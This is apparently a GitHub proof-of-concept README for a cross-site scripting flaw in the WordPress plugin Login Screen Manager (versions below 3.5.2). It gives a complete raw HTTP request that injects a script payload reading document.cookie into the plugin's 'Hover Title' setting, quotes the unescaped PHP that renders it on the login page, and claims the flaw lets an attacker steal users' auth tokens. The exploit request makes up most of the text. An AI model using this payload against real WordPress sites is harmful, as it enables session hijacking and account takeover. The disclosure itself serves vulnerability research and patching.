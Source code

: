 # Login-screen-manager-POC
Poc XSS screen login manager wordpress plugin

# Exploit Title: Login Screen Manager (Authenticated) (Reflected XSS)
# Google Dork: N/A
# Date: 2023/09/19
# Exploit Author: Nano
# Vendor Homepage: https://nihal.one/
# Software Link: https://wordpress.org/plugins/login-screen-manager/
# Version: < 3.5.2
# Tested on: Ubuntu 20.04
# CVE : N/A

Exploit
We can use Reflected XSS to exploit this vulnerability, create a
malicious link, and steal wordpress user auth tokens once a user logins


```sh
POST /wp-admin/options.php HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:8080/wp-admin/options-general.php?page=cwlsm-options
Content-Type: application/x-www-form-urlencoded
Content-Length: 594
Origin: http://localhost:8080

option_page=cwlsm_settings_group&action=update&_wpnonce=f66ab96767&_wp_http_referer=%2Fwp-admin%2Foptions-general.php%3Fpage%3Dcwlsm-options%26settings-updated%3Dtrue&cwlsm_settings%5Blogo_url%5D=&cwlsm_settings%5Bfav_icon_url%5D=&cwlsm_settings%5Bhover_title%5D=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&cwlsm_settings%5Burl%5D=&cwlsm_settings%5Bbody_bg_color%5D=%23F1F1F1&cwlsm_settings%5Blogin_form_bg_color%5D=%23FFFFFF&cwlsm_settings%5Btext_input_color%5D=%23000000&cwlsm_settings%5Binput_bg_color%5D=%23FFFFFF&cwlsm_settings%5Blabel_color%5D=%23000000&cwlsm_settings%5Bcss%5D=
```
As you can see we can submit a XSS payload in the "Hover Title" tag, reason being is that the submitted data isn't sanitized once it's loaded User login page

Vuln code:
```php
function cwlsm_change_title(){

                global $cwlsm_options;

                return  $cwlsm_options["hover_title"];

        }



        if(!empty($cwlsm_options["hover_title"])){

                add_action('login_headertitle', 'cwlsm_change_title');

        }```
